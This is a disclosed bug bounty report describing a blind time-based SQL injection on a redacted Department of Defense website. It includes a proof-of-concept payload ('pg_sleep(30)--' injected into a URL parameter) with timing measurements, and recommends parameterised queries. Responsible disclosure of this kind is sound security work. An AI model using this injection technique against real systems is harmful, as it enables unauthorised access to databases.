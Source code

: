 # Blind SQL Injection on DoD Site

## Report Details
- **Report ID**: 242882
- **URL**: https://hackerone.com/reports/242882
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2017-06-24T13:09:18.095Z
- **Disclosed**: 2019-12-02T19:00:34.732Z

## Reporter
- **Username**: mr_r3boot
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: deptofdefense

## Vulnerability Information
Hi There, One of the DoD Site is vulnerable to blind sql injection.

#Affected Domain:
www.███

#PoC:
Navigate to below url
``http://www.█████████/viewVideo.asp?t=7``

Just replace ``7`` with ``pg_sleep(__30__)--``

***GET /viewVideo.asp?t=pg_sleep(__30__)--***

As a response you can see time delay compared with ``viewVideo.asp?t=7``

#####Time Slot:

*viewVideo.asp?t=7*                               -----------> 240-330 milliseconds
*viewVideo.asp?t=pg_sleep(__30__)--*    -----------> 15000-19000 milliseconds

#Fix:
Should sanitize the dangerous input or using parameterised queries.

Let me know if any further info is required.

Regards,
**Mr_R3boot**.

## Attachments
No attachments
